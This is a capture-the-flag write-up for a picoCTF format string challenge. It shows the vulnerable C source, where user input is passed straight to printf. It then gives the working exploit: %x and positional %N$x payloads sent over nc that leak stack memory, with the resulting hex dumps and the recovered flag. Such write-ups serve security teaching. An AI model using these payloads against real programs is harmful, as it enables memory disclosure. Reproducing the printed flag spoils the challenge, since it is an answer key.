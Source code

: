 
## Challenge Description

Description
Story telling class 1/2
I'm just copying and pasting with this program. What can go wrong? You can view source here. And connect with it using:
nc saturn.picoctf.net 63566

# Hint
Format Strings

## Thought Process

Given below is the attached source
```bash
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

void readflag(char* buf, size_t len) {
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,len,f); // size bound read
}

void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}
```
### Analysis

- The program takes user input and display it back to the user
- The `printf(story);` statement directly uses user input (`story`) without a format specifier. This opens the door for format string attacks
- The flag is read into the local variable `flag` (64 bytes), which resides on the stack. Exploiting the format string vulnerability can potentially read the `flag` variable from memory

The goal is to use format string exploitation to leak memory and read the contents of the flag variable from the stack. `%x` or `%p` placeholders can be used in the input to inspect the stack and locate the flag variable. Then, once the offset to flag is identified, `%s` can be used to read it as a string

## Solution

```bash
root@MeenakshiSangeeth:~# nc saturn.picoctf.net 65376
Tell me a story and then I'll tell you one >> hello
Here's a story -
hello

root@MeenakshiSangeeth:~# nc saturn.picoctf.net 65376
Tell me a story and then I'll tell you one >> %x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:
Here's a story -
ffde38e0:ffde3900:8049346:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:253a78:6f636970:7b465443:6b34334c:5f676e31:67346c46:6666305f:3474535f:
```

I converted hex to ASCII and found out the offset to be 36

```bash
root@MeenakshiSangeeth:~# nc saturn.picoctf.net 65376
Tell me a story and then I'll tell you one >>  %36$x%37$x%38$x%39$x%40$x%41$x%42$x43$x%44$x%45$x%46$x
Here's a story -
6f6369707b4654436b34334c5f676e3167346c466666305f3474535f43$x326539397d343238fbad2000
```

I converted the result to ASCII
![image](https://github.com/user-attachments/assets/f5b984c3-2138-4415-8db7-e1815ab82cfa)

Thus I got the flag but in scrambled form. After a lot of trial and error in reconstructing it, I got the flag as picoCTF{L34k1ng_Fl4g_0ff_St4ck_999e2824}

